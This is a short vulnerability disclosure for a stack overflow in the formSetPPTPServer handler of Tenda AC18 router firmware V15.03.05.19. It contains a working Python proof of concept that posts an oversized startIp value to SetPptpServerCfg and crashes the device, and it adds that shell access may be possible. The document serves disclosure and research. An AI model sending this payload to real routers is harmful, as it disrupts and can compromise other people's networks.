 ## Tenda AC18 stack overflow vulnerability

## 1. Affected version
V15.03.05.19

Firmware download website: https://www.tenda.com.cn/download/detail-2610.html

## 2. Vulnerability details

A stack overflow vulnerability exists in the formSetPPTPServer function of the Tenda AC18 V15.03.05.019 firmware. 
The v27 variable retrieves the startIP parameter from a POST request without proper validation, and then the contents matched by v27 
and put into the v19 without size checking, resulting in a stack overflow.
   
   ![My Image](9.png)

## 3 POC
```python
import requests

url = 'http://IP:port/goform/SetPptpServerCfg'

headers = {"Cookie": "password=You cookie"}

data = {
    'serverEn': 2,
    'startIp': 'l' * 10000
}
r = requests.post(url=url, headers=headers, data=data)
res = r.text
print(res)
```
You can observe the router crashing, and ultimately, it is possible to craft an exploit to gain a shell.
